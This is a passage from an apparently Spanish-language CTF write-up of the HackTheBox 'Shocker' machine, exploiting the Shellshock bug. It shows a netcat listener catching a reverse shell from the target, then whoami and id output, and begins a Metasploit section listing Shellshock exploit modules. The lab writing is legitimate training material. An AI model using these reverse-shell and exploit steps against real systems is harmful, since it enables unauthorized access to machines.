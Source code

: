 * Envía la petición y observa el resultado en la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.56] 48010
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$
```
Listo, volvimos a ganar acceso.

<h2 id="PruebaExp3">Usando Metasploit Framework para Aplicar Shellshock</h2>

Vamos a probar, si podemos ganar acceso usando **Metasploit Framework**, hagamoslo por pasos:

* Abre **Metasploit**:
```bash
msfconsole
```

* Busca el **ataque Shellshock**:

```bash
msf6 > search shellshock
.
Matching Modules
================
.
   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   2   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   4   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   5   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   6   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   9   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   10  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)
   11  exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```
